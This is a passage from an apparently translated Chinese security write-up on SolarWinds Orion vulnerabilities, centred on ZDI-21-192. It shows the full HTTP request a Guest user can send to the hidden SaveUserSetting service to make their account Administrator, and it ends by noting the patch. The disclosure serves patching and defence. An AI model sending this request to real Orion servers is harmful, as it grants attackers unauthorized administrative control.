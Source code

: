 这个漏洞有个缺点：只能被Admin用户所利用。然而，攻击者可以通过下面这个漏洞来绕过该限制。



## 0x04 ZDI-CAN-11903/ZDI-21-192：权限提升漏洞

当SolarWinds Orion平台安装了如下任意一个模块后，就会存在该漏洞：
- Network Configuration Manager
- Server Configuration Manager
- IP Address Manager
当平台安装过其中一个产品后，SolarWinds就会在`WebUserSettings`表中存储账户角色。

[![](https://p3.ssl.qhimg.com/t01d8221fbd883538b0.png)](https://p3.ssl.qhimg.com/t01d8221fbd883538b0.png)

提供该漏洞的研究人员发现，这个表可以通过`SaveUserSetting`这个隐藏的资源来修改。Guest用户可以发起如下请求，轻松将权限提升至管理员特权：

```
POST /orion/services/WebAdmin.asmx/SaveUserSetting HTTP/1.1 
Host: 172.16.11.190:8787 
User-Agent: Mozilla/5.0 
Accept-Encoding: gzip, deflate 
Accept: */* 
Connection: keep-alive 
Origin: http://172.16.11.190:8787 
X-Requested-With: XMLHttpRequest 
X-MicrosoftAjax: Delta=true 
X-XSRF-TOKEN: THm8YIMQ0sGaGYlPcwJfHvuT6GvRmocs6hPaeFT1H54= 
Content-Type: application/json;charset=utf-8 
Cookie: .ASPXAUTH=9E5A8A04443C998883584BDCC411A24773DE7D28D3B7317167[...] 
Content-Length: 56 

`{`"name": "NCM.NCMAccountRole", "value": "Administrator"`}`
```



## 0x05 总结

通过这几篇文章，我们应该充分意识到简单的错误及疏忽将导致严重的后果。幸运的是，SolarWinds已经在[Orion Platform 2020.2.1 HF2](https://documentation.solarwinds.com/en/Success_Center/orionplatform/content/release_notes/orion_platform_2020-2-1_release_notes.htm)中解决了以上所有漏洞，我们建议受影响的平台第一时间进行升级。

[![](https://p0.ssl.qhimg.com/t015a79e97db3277ed2.png)](https://p0.ssl.qhimg.com/t015a79e97db3277ed2.png)
